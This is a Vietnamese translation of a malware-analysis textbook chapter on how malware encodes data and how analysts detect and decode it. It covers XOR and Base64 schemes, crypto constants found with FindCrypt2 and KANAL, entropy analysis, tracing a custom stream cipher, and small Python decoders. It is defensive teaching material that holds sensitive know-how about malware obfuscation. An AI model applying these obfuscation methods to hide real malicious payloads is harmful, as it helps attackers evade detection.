

*Hình 13.3: Tìm kiếm tất cả các lệnh XOR trong IDA Pro (Search -> Sequence of Bytes) để phát hiện vòng lặp giải mã.*



*Hình 13.4: Quá trình chuyển đổi 3 byte nhị phân thành 4 ký tự hiển thị trong thuật toán mã hóa Base64.*

| Thuật toán mã hóa đơn giản | Cơ chế biến đổi | Đặc điểm nhận dạng khi dịch ngược |
| :--- | :--- | :--- |
| **Mật mã Caesar / ROT13** | Cộng/trừ độ lệch cố định vào từng byte | Thấy lệnh `add byte ptr [esi], K` hoặc `sub` |
| **XOR đơn byte** | Thực hiện phép XOR từng byte với 1 byte hằng số | Thấy vòng lặp với lệnh `xor [esi], key` |
| **XOR nhiều byte (Khóa lặp)**| XOR tuần tự với một chuỗi khóa (`key[i % len]`) | Vòng lặp XOR có biến đếm modulo hoặc con trỏ khóa |
| **XOR bảo toàn NULL** | Không mã hóa các byte `0x00` để giữ cấu trúc chuỗi | Thấy lệnh kiểm tra `test al, al` trước khi XOR |
| **Base64 Tùy biến** | Thay thế bảng ký tự chuẩn bằng bảng alphabet xáo trộn | Tìm thấy chuỗi 64 ký tự tùy biến trong section `.rdata` |

*Bảng 13.3 & 13.4: Tổng hợp các cơ chế mã hóa đơn giản và cách thức nhận diện trong mã máy.*



*Hình 13.6: Danh sách các hàm Windows CryptoAPI (`CryptAcquireContext`, `CryptCreateHash`, `CryptDeriveKey`, `CryptEncrypt`) được import trong IDA Pro.*


*Hình 13.7: Kết quả nhận diện tự động các bảng hằng số mật mã của thuật toán AES/MD5/SHA bằng plugin FindCrypt2 trong IDA Pro.*



*Hình 13.8: Plugin Krypto ANALyzer (KANAL) trong PEiD phát hiện thuật toán mật mã chuẩn dựa trên hằng số.*



*Hình 13.10: Đồ thị hàm ghi dữ liệu mã hóa ra tệp tin hoặc socket mạng trong IDA Pro.*



*Hình 13.11: Mối quan hệ liên kết giữa hàm mã hóa dữ liệu và hàm truyền nhận mạng.*

### 13.3 Các Thuật Toán Mật Mã Tiêu Chuẩn Phổ Biến

Các lược đồ mật mã đơn giản (về bản chất là các mật mã thay thế) khác biệt rất nhiều so với các mật mã hiện đại. Mật mã học hiện đại tính đến năng lực tính toán ngày càng tăng theo cấp số nhân của máy tính, và đảm bảo rằng các thuật toán được thiết kế để đòi hỏi năng lực tính toán lớn đến mức việc phá mã là bất khả thi trên thực tế.

Các lược đồ mật mã đơn giản mà chúng ta đã thảo luận trước đây thậm chí còn không vờ như có khả năng chống lại các biện pháp brute-force. Mục đích chính của chúng chỉ là che giấu (obscure). Mật mã học đã tiến hóa và phát triển theo thời gian, hiện nay nó đã được tích hợp vào mọi khía cạnh của việc sử dụng máy tính, chẳng hạn như SSL trong trình duyệt web hoặc mã hóa tại điểm truy cập không dây (Wi-Fi). Vậy tại sao mã độc không phải lúc nào cũng tận dụng các thuật toán mật mã học này để ẩn giấu thông tin nhạy cảm của nó?

Mã độc thường sử dụng các lược đồ mật mã đơn giản vì chúng dễ triển khai và thường đã đủ dùng. Ngoài ra, việc sử dụng mật mã học tiêu chuẩn cũng đi kèm các nhược điểm tiềm ẩn, đặc biệt là đối với mã độc:

- Các thư viện mật mã có thể có dung lượng lớn, vì vậy mã độc có thể cần phải tích hợp tĩnh (statically integrate) mã nguồn hoặc liên kết với mã có sẵn trên máy.
- Việc phải liên kết với mã tồn tại trên máy nạn nhân có thể làm giảm tính tương thích/khả chuyển (portability).
- Các thư viện mật mã tiêu chuẩn rất dễ bị phát hiện (thông qua các hàm import, kỹ thuật so khớp hàm, hoặc nhận diện các hằng số mật mã).
- Người dùng các thuật toán mã hóa đối xứng (symmetric encryption) phải đau đầu tìm cách giấu khóa bí mật.

Nhiều thuật toán mật mã tiêu chuẩn dựa vào một khóa mạnh để bảo vệ bí mật. Ý tưởng cốt lõi là bản thân thuật toán đã được công khai rộng rãi, nhưng nếu không có khóa, việc giải mã bản mã (ciphertext) là gần như bất khả thi (nghĩa là đòi hỏi một khối lượng tính toán khổng lồ). Để đảm bảo lượng tính toán đủ lớn cho việc giải mã, khóa thường phải đủ dài để không thể kiểm tra hết tất cả các khóa khả dĩ một cách dễ dàng. Đối với các thuật toán tiêu chuẩn mà mã độc có thể sử dụng, bí quyết ở đây không chỉ là xác định được thuật toán, mà còn phải tìm ra được khóa mã hóa.

Có một vài cách dễ dàng để nhận biết việc sử dụng mật mã tiêu chuẩn, bao gồm tìm kiếm các chuỗi ký tự và hàm import tham chiếu đến các hàm mật mã, cùng việc sử dụng một số công cụ để tìm kiếm nội dung cụ thể.

#### a. Nhận Diện Chuỗi và Thư Viện Nhập Crypto API

Một cách để nhận diện các thuật toán mật mã tiêu chuẩn là phát hiện các chuỗi ký tự liên quan đến mật mã học. Điều này có thể xảy ra khi các thư viện mật mã như OpenSSL được biên dịch tĩnh (statically compiled) vào bên trong mã độc. Ví dụ, dưới đây là tập hợp các chuỗi ký tự được trích xuất từ một mã độc được biên dịch với thư viện mã hóa OpenSSL:
```
OpenSSL 1.0.0a
SSLv3 part of OpenSSL 1.0.0a
TLSv1 part of OpenSSL 1.0.0a
SSLv2 part of OpenSSL 1.0.0a
You need to read the OpenSSL FAQ, http://www.openssl.org/support/faq.html
%s(%d): OpenSSL internal error, assertion failed: %s
AES for x86, CRYPTOGAMS by <appro@openssl.org>
```
Một cách khác để tìm kiếm mật mã tiêu chuẩn là nhận diện các hàm import tham chiếu đến các hàm mật mã. Ví dụ, Hình 13-9 là ảnh chụp màn hình từ IDA Pro hiển thị một số hàm import cung cấp các dịch vụ liên quan đến hàm băm (hashing), tạo khóa (key generation) và mã hóa (encryption). Hầu hết (dù không phải tất cả) các hàm của Microsoft liên quan đến mật mã học đều bắt đầu bằng `Crypt`, `CP` (viết tắt của Cryptographic Provider), hoặc `Cert`.

#### b. Truy Lùng Hằng Số Mật Mã (Cryptographic Constants)

Phương pháp cơ bản thứ ba để phát hiện mật mã là sử dụng một công cụ có thể tìm kiếm các hằng số mật mã học thường dùng (cryptographic constants). Ở đây, chúng ta sẽ xem xét việc sử dụng **FindCrypt2** trong IDA Pro và **Krypto ANALyzer**.

$\color{green}{\text{Using FindCrypt2}}$

IDA Pro có một plugin tên là FindCrypt2, được bao gồm trong IDA Pro SDK (hoặc tải về từ `[http://www.hex-rays.com/idapro/freefiles/findcrypt.zip](http://www.hex-rays.com/idapro/freefiles/findcrypt.zip)`), chuyên tìm kiếm trong thân chương trình bất kỳ hằng số nào đã biết là có liên kết với các thuật toán mật mã học. Phương pháp này hoạt động rất hiệu quả, vì hầu hết các thuật toán mật mã đều sử dụng một số loại "hằng số ma thuật" (magic constant). Một hằng số ma thuật là một chuỗi bit cố định gắn liền với cấu trúc thiết yếu của thuật toán.

> **GHI CHÚ:** Một số thuật toán mật mã không sử dụng hằng số ma thuật. Đáng chú ý là thuật toán IDEA (International Data Encryption Algorithm) và RC4 xây dựng cấu trúc của chúng một cách linh hoạt trong quá trình chạy (on the fly), và do đó không nằm trong danh sách các thuật toán có thể được nhận diện theo cách này. Mã độc rất hay sử dụng thuật toán RC4, có lẽ vì nó nhỏ gọn, dễ lập trình và không có hằng số mật mã nào để làm lộ dấu vết.

FindCrypt2 chạy tự động trên mỗi phiên phân tích mới, hoặc có thể chạy thủ công từ menu plugin. Hình 13-10 cho thấy cửa sổ đầu ra của IDA Pro với kết quả chạy FindCrypt2 trên một DLL độc hại. Như bạn thấy, mã độc chứa một số hằng số bắt đầu bằng `DES`. Bằng cách xác định các hàm tham chiếu đến các hằng số này, bạn có thể nhanh chóng nắm bắt được các hàm đang triển khai thuật toán mã hóa.

$\color{green}{\text{Using Krypto ANALyzer}}$

Một công cụ sử dụng cùng nguyên lý với plugin FindCrypt2 của IDA Pro là **Krypto ANALyzer (KANAL)**. KANAL là một plugin dành cho PEiD (`[http://www.peid.has.it/](http://www.peid.has.it/)`) và sở hữu cơ sở dữ liệu hằng số rộng hơn (mặc dù do đó, nó có xu hướng tạo ra nhiều kết quả dương tính giả hơn). Ngoài các hằng số, KANAL cũng nhận diện được các bảng mã Base64 và các hàm import liên quan đến mật mã học.

Hình 13-11 hiển thị cửa sổ PEiD ở bên trái và cửa sổ plugin KANAL ở bên phải. Các plugin của PEiD có thể được chạy bằng cách nhấp vào mũi tên ở góc dưới bên phải. Khi KANAL được chạy, nó sẽ xác định các hằng số, bảng mã và các hàm import liên quan đến mật mã trong một danh sách. Hình 13-11 cho thấy KANAL tìm thấy một bảng Base64, một hằng số CRC32 và một số hàm import `Crypt...` trong mã độc.

#### c. Phân Tích Độ Hỗn Loạn Của Dữ Liệu (Entropy Analysis)

Một cách khác để xác định việc sử dụng mật mã là tìm kiếm nội dung có độ hỗn loạn cao (high-entropy content). Ngoài khả năng làm nổi bật các hằng số hoặc khóa mật mã, kỹ thuật này còn có thể nhận diện chính phần nội dung bị mã hóa. Do phạm vi áp dụng rộng rãi, kỹ thuật này có thể phát huy tác dụng trong các trường hợp không tìm thấy hằng số mật mã (chẳng hạn như thuật toán RC4).

> **CẢNH BÁO:** Kỹ thuật tìm nội dung có độ entropy cao khá thô sơ và tốt nhất nên dùng như một giải pháp cuối cùng. Nhiều loại nội dung — chẳng hạn như hình ảnh, phim, tệp âm thanh và dữ liệu nén khác — đều có entropy rất cao và không thể phân biệt được với nội dung mã hóa ngoại trừ việc dựa vào phần header của chúng.

Plugin IDA Entropy (`[http://www.smokedchicken.org/2010/06/idaentropy-plugin.html](http://www.smokedchicken.org/2010/06/idaentropy-plugin.html)`) là một công cụ triển khai kỹ thuật này cho các tệp PE. Bạn có thể nạp plugin vào IDA Pro bằng cách đặt tệp `ida-ent.plw` vào thư mục plugins của IDA Pro.

Hãy lấy trường hợp mẫu thử là chính mã độc đã có dấu hiệu mã hóa DES từ Hình 13-10. Khi tệp được nạp vào IDA Pro, hãy khởi động IDA Entropy Plugin. Cửa sổ ban đầu là **Entropy Calculator**, được hiển thị ở cửa sổ bên trái trong Hình 13-12. Bất kỳ segment nào cũng có thể được chọn và phân tích riêng lẻ. Trong trường hợp này, chúng ta tập trung vào một phần nhỏ của segment `.rdata`. Nút **Deep Analyze** sử dụng các tham số được chỉ định (chunk size, step size, và maximum entropy) để quét khu vực đã chọn nhằm tìm các khối vượt quá mức entropy được liệt kê. Nếu bạn so sánh kết quả trong Hình _13.10_ với kết quả trả về trong cửa sổ kết quả deep analysis ở Hình 13-12, bạn sẽ thấy các địa chỉ tương tự xung quanh vùng `0x100062A4` được làm nổi bật. Plugin IDA Pro Entropy đã tìm thấy các hằng số DES (biểu thị mức độ entropy cao) mà không cần có bất kỳ kiến thức nào về bản thân các hằng số đó!


Để sử dụng phép kiểm tra entropy hiệu quả, việc hiểu được mối quan hệ giữa kích thước khối (chunk size) và điểm entropy là rất quan trọng. Thiết lập hiển thị trong Hình _13.12_ (chunk size là 64 với maximum entropy là 5.95) trên thực tế là một bài kiểm tra tổng quát rất tốt, có thể tìm thấy nhiều loại hằng số, và thực tế cũng sẽ định vị được bất kỳ chuỗi mã hóa Base64 nào (ngay cả các chuỗi không theo chuẩn).


Một chuỗi 64 byte chứa 64 giá trị byte phân biệt có giá trị entropy cao nhất có thể. 64 giá trị này có liên quan đến giá trị entropy là 6 (ám chỉ 6 bit entropy), vì số lượng giá trị có thể biểu diễn bằng 6 bit là $2^6 = 64$.

Một thiết lập hữu ích khác là chunk size bằng 256 với entropy trên 7.9. Điều này có nghĩa là có một chuỗi gồm 256 byte liên tiếp, phản ánh gần như toàn bộ 256 giá trị byte khả dĩ ($2^8 = 256$).

Plugin IDA Pro Entropy cũng có một công cụ cung cấp cái nhìn tổng quan dạng đồ thị về khu vực cần quan tâm, có thể dùng để định hướng các giá trị bạn nên chọn cho điểm entropy tối đa, đồng thời giúp xác định vị trí cần tập trung phân tích. Nút **Draw** tạo ra một biểu đồ hiển thị các vùng có entropy cao hơn dưới dạng các thanh màu sáng hơn và các vùng có entropy thấp hơn dưới dạng các thanh màu tối hơn. Bằng cách rê chuột lên biểu đồ, bạn có thể thấy điểm entropy thô tại vị trí cụ thể đó. Vì bản đồ entropy rất khó quan sát ở dạng sách in, một biểu đồ đường thẳng của cùng tệp đó được đưa vào Hình 13-13 để minh họa cách bản đồ entropy có thể phát huy tác dụng.


Biểu đồ trong Hình _13.13_ được tạo bằng cách sử dụng cùng chunk size là 64. Biểu đồ chỉ hiển thị các giá trị cao, từ 4.8 đến 6.2. Hãy nhớ rằng giá trị entropy tối đa cho chunk size đó là 6. Hãy chú ý đỉnh nhọn đạt mức 6 nằm phía trên khối số 25000. Đây chính là khu vực của tệp chứa các hằng số DES đã được làm nổi bật trong Hình _13.10_ và _13.12_.

Một vài đặc điểm khác cũng rất đáng chú ý. Một là vùng cao nguyên nằm giữa các khối 4000 và 22000. Vùng này đại diện cho phần code thực tế, và thông thường code sẽ đạt mức entropy ở khoảng này. Code thường có tính liền mạch, vì vậy nó sẽ tạo thành một chuỗi các đỉnh nối liền nhau.

Một đặc điểm thú vị hơn là đỉnh nhọn ở cuối tệp đạt mức khoảng 5.5. Việc nó là một giá trị khá cao và đứng độc lập không gắn liền với các đỉnh khác làm cho nó trở nên rất nổi bật. Khi được phân tích, khu vực này được xác định là dữ liệu cấu hình đã được mã hóa DES của mã độc, nơi cất giấu thông tin máy chủ điều khiển (C2) của nó.

### 13.4 Thuật Toán Mã Hóa Tùy Biến (Custom Encoding)

Mã độc thường sử dụng các lược đồ mã hóa tự chế (homegrown encoding). Một trong những cách này là kết hợp phân lớp nhiều phương pháp mã hóa đơn giản. Ví dụ, mã độc có thể thực hiện một lượt mã hóa XOR và sau đó mã hóa Base64 kết quả thu được. Một dạng khác là tự phát triển một thuật toán riêng biệt, có thể có những điểm tương đồng với một thuật toán mật mã tiêu chuẩn đã được công bố.

#### a. Nhận Diện Thuật Toán Tùy Biến

Chúng ta đã thảo luận về nhiều cách khác nhau để xác định các hàm mã hóa và mật mã phổ biến trong mã độc khi có các chuỗi ký tự hoặc hằng số dễ nhận biết. Trong nhiều trường hợp, các kỹ thuật đã đề cập cũng có thể hỗ trợ tìm kiếm các kỹ thuật mật mã tùy biến. Tuy nhiên, nếu không có dấu hiệu rõ ràng nào, công việc sẽ trở nên khó khăn hơn nhiều.

Ví dụ, giả sử chúng ta tìm thấy mã độc đi kèm một loạt các tệp bị mã hóa trong cùng một thư mục, mỗi tệp có kích thước khoảng 700KB. Đoạn mã _13.6_ hiển thị các byte đầu tiên của một trong các tệp này.
```
88 5B D9 02 EB 07 5D 3A 8A 06 1E 67 D2 16 93 7F  .[....]:...g....
43 72 1B A4 BA B9 85 B7 74 1C 6D 03 1E AF 67 AF  Cr......t.m...g.
98 F6 47 36 57 AA 8E C5 1D 70 A5 CB 38 ED 22 19  ..G6W....p..8.".
86 29 98 2D 69 62 9E C0 4B 4F 8B 05 A0 71 08 50  .).-ib..KO...q.P
92 A0 C3 58 4A 48 E4 A3 0A 39 7B 8A 3C 2D 00 9E  ...XJH...9{.<-..
```
_Listing 13-6: Các byte đầu tiên của một tệp bị mã hóa_

Chúng ta sử dụng các công cụ đã được mô tả từ đầu đến giờ nhưng không tìm thấy câu trả lời rõ ràng nào. Không có chuỗi ký tự nào cung cấp bất kỳ gợi ý nào về mật mã. Cả FindCrypt2 và KANAL đều không tìm thấy bất kỳ hằng số mật mã nào. Các bài kiểm tra độ entropy cao cũng không phát hiện điều gì nổi bật. Thử nghiệm duy nhất mang lại một manh mối nhỏ là tìm kiếm lệnh `XOR`, phát hiện ra một lệnh duy nhất là `xor ebx, eax`. Để phục vụ cho bài học, tạm thời hãy bỏ qua chi tiết này.

Việc tìm kiếm thuật toán mã hóa theo cách thủ công ("the hard way") đòi hỏi phải **lần theo luồng thực thi (thread of execution) từ các luồng nhập (input) hoặc xuất (output) đáng ngờ**. Input và output có thể được xem như các danh mục tổng quát. Bất kể mã độc gửi một gói tin mạng, ghi vào một tệp, hay ghi ra standard output, tất cả đều là output. Nếu output bị nghi ngờ chứa dữ liệu mã hóa, thì hàm mã hóa chắc chắn phải diễn ra trước output đó.

Ngược lại, việc giải mã (decoding) sẽ diễn ra sau input. Ví dụ: giả sử bạn xác định được một hàm nhận dữ liệu đầu vào. Trước tiên, bạn xác định các phần tử dữ liệu bị ảnh hưởng bởi input đó, sau đó đi xuôi theo luồng thực thi, chỉ kiểm tra các hàm mới có quyền truy cập vào phần tử dữ liệu đang xét. Nếu bạn đi đến cuối một hàm, bạn quay lại hàm gọi nó từ vị trí lời gọi hàm diễn ra, tiếp tục ghi nhận vị trí dữ liệu. Trong hầu hết các trường hợp, hàm giải mã sẽ không nằm quá xa hàm input. Các hàm output cũng tương tự, ngoại trừ việc bạn phải lần ngược chiều dòng thực thi.

Trong ví dụ của chúng ta, output giả định chính là các tệp mã hóa được tìm thấy trong cùng thư mục với mã độc. Nhìn vào bảng import của mã độc, chúng ta thấy có sự xuất hiện của `CreateFileA` và `WriteFile`, và cả hai đều nằm trong hàm có nhãn `sub_4011A9`. Đây cũng chính là hàm tình cờ chứa lệnh `XOR` đơn độc đã nêu.


Đồ thị hàm cho một phần của `sub_4011A9` được hiển thị trong Hình _13.14_. Hãy chú ý lời gọi `WriteFile` ở bên phải trong khối lệnh có nhãn `loc_40122a`. Đồng thời, hãy để ý rằng lệnh `xor ebx, eax` nằm trong vòng lặp diễn ra ngay trước khối ghi dữ liệu (`loc_40122a`).

Khối bên trái chứa một lời gọi đến `sub_40112F`, và ở cuối khối lệnh, chúng ta thấy một biến đếm được tăng thêm 1 (biến đếm có nhãn `var_4`). Sau lời gọi `sub_40112F`, chúng ta thấy giá trị trả về trong thanh ghi EAX được sử dụng trong phép toán XOR với EBX. Tại thời điểm này, kết quả của hàm XOR nằm trong `bl` (byte thấp của EBX). Giá trị byte trong `bl` sau đó được ghi vào bộ đệm (tại `lpBuffer` cộng với giá trị biến đếm hiện tại).

Ghép nối tất cả các bằng chứng này lại, một phỏng đoán hợp lý là lời gọi đến `sub_40112F` là một hàm để lấy ra một byte giả ngẫu nhiên (pseudorandom byte), byte này sau đó được XOR với byte hiện tại của bộ đệm. Bộ đệm được đặt nhãn là `lpBuffer`, vì sau đó nó được sử dụng trong hàm `WriteFile`. Hàm `sub_40112F` dường như không có tham số nào và chỉ trả về một byte duy nhất trong EAX.

Hình 13-15 cho thấy mối quan hệ giữa các hàm mã hóa. Hãy chú ý mối quan hệ giữa `sub_40106C` và `sub_40112F`, cả hai đều gọi chung một chương trình con (`sub_40103E`). Hàm `sub_40106C` cũng không có tham số nào và luôn được gọi trước khi gọi `sub_40112F`. Nếu `sub_40106C` là một hàm khởi tạo cho quy trình mật mã, thì nó phải chia sẻ một số biến toàn cục với `sub_40112F`.

Điều tra sâu hơn, chúng ta thấy cả `sub_40106C` và `sub_40112F` đều chứa nhiều tham chiếu đến ba biến toàn cục (hai giá trị DWORD và một mảng 256 byte), củng cố cho giả thuyết rằng đây là một **hàm khởi tạo mật mã** và một **hàm mật mã dòng (stream cipher)**. (Mật mã dòng tạo ra một luồng bit giả ngẫu nhiên có thể kết hợp với plaintext thông qua phép XOR.)

Một điểm kỳ lạ trong ví dụ này là hàm khởi tạo không nhận bất kỳ mật khẩu nào làm đối số, chỉ chứa các tham chiếu đến hai giá trị DWORD và một con trỏ trỏ tới một mảng 256 byte trống.

Trong trường hợp này, chúng ta đã may mắn: Các hàm mã hóa nằm rất gần hàm output thực hiện ghi nội dung mã hóa, và việc định vị các hàm mã hóa tương đối dễ dàng.

#### b. Lợi Thế Của Mã Hóa Tùy Biến Đối Với Kẻ Tấn Công

Đối với kẻ tấn công, các phương pháp mã hóa tùy biến mang lại nhiều lợi thế, thường là vì chúng có thể giữ lại các đặc tính của các lược đồ mã hóa đơn giản (kích thước nhỏ gọn và không lộ liễu dấu hiệu mã hóa), trong khi lại khiến công việc của chuyên gia dịch ngược trở nên khó khăn hơn. Có thể khẳng định rằng nhiệm vụ reverse-engineering đối với loại mã hóa này (nhận diện quy trình mã hóa và xây dựng bộ giải mã) khó khăn hơn nhiều so với nhiều loại mật mã tiêu chuẩn.

Với nhiều loại mật mã tiêu chuẩn, một khi thuật toán mật mã được xác định và tìm thấy khóa, việc viết một bộ giải mã bằng các thư viện chuẩn là khá dễ dàng. Với mã hóa tùy biến, kẻ tấn công có thể tạo ra bất kỳ lược đồ mã hóa nào chúng muốn, có thể dùng hoặc không dùng một khóa rõ ràng.

Như bạn đã thấy trong ví dụ trước, khóa trên thực tế đã được nhúng (và làm mờ) ngay bên trong chính mã nguồn. Ngay cả khi kẻ tấn công có sử dụng khóa và khóa đó được tìm ra, rất khó có khả năng tìm thấy một thư viện có sẵn miễn phí hỗ trợ việc giải mã.

### 13.5 Kỹ Thuật Giải Mã Dữ Liệu (Decoding Techniques)

Việc tìm kiếm các hàm mã hóa để cô lập chúng là một phần quan trọng của quy trình phân tích, nhưng thông thường bạn cũng sẽ muốn giải mã các nội dung bị ẩn giấu. Có hai cách cơ bản để tái lập các hàm mã hóa hoặc giải mã trong mã độc:

- Tự lập trình lại các hàm đó.
- Tận dụng chính các hàm đang tồn tại bên trong bản thân mã độc.

#### a. Kỹ Thuật Tự Giải Mã (Self-Decoding)

Cách tiết kiệm công sức nhất để giải mã dữ liệu — bất kể thuật toán đã biết hay chưa — là để **chính chương trình tự thực hiện việc giải mã trong tiến trình hoạt động bình thường của nó**. Chúng tôi gọi quá trình này là **tự giải mã (self-decoding)**.

Nếu bạn từng dừng một chương trình mã độc trong trình gỡ lỗi (debugger) và nhận thấy một chuỗi ký tự trong bộ nhớ mà bạn không hề thấy khi chạy lệnh `strings`, thì bạn đã sử dụng kỹ thuật self-decoding rồi. Nếu thông tin bị ẩn trước đó được giải mã tại bất kỳ thời điểm nào, việc chỉ cần dừng tiến trình lại và thực hiện phân tích sẽ dễ dàng hơn nhiều so với việc cố gắng xác định cơ chế mã hóa được sử dụng (và cố gắng xây dựng một bộ giải mã).

Mặc dù self-decoding có thể là một cách rẻ và hiệu quả để giải mã nội dung, nhưng nó cũng có những nhược điểm:

- Thứ nhất, để xác định từng trường hợp giải mã được thực hiện, bạn phải cô lập hàm giải mã và đặt một breakpoint ngay sau chu trình giải mã đó.
- Quan trọng hơn, nếu mã độc không tình cờ giải mã thông tin mà bạn đang quan tâm (hoặc bạn không biết cách điều khiển mã độc thực hiện điều đó), bạn sẽ hoàn toàn bế tắc. Vì những lý do này, việc sử dụng các kỹ thuật mang lại khả năng kiểm soát chủ động hơn là rất quan trọng.

#### b. Lập Trình Tái Tạo Hàm Giải Mã Thủ Công

Đối với các mật mã và phương pháp mã hóa đơn giản, bạn thường có thể sử dụng các hàm tiêu chuẩn có sẵn trong ngôn ngữ lập trình. Ví dụ, Đoạn mã _13.7_ hiển thị một chương trình Python nhỏ giải mã một chuỗi được mã hóa Base64 tiêu chuẩn. Thay đổi biến `example_string` để giải mã chuỗi mà bạn quan tâm.
```python
import string
import base64

example_string = 'VGhpcyBpcyBhIHRlc3Qgc3RyaW5n'
print base64.decodestring(example_string)
```
_Listing 13.7: Đoạn script Python mẫu giải mã Base64_

Đối với các phương pháp mã hóa đơn giản thiếu các hàm tiêu chuẩn, chẳng hạn như mã hóa XOR hoặc mã hóa Base64 sử dụng bảng ký tự sửa đổi, cách dễ nhất thường là tự lập trình hoặc viết script hàm mã hóa bằng ngôn ngữ bạn chọn. Đoạn mã _13.8_ hiển thị một ví dụ về hàm Python triển khai việc mã hóa XOR một byte bảo toàn NULL, như đã mô tả ở phần trước trong chương này.
```python
def null_preserving_xor(input_char, key_char):
    if (input_char == key_char or input_char == chr(0x00)):
        return input_char
    else:
        return chr(ord(input_char) ^ ord(key_char))
```
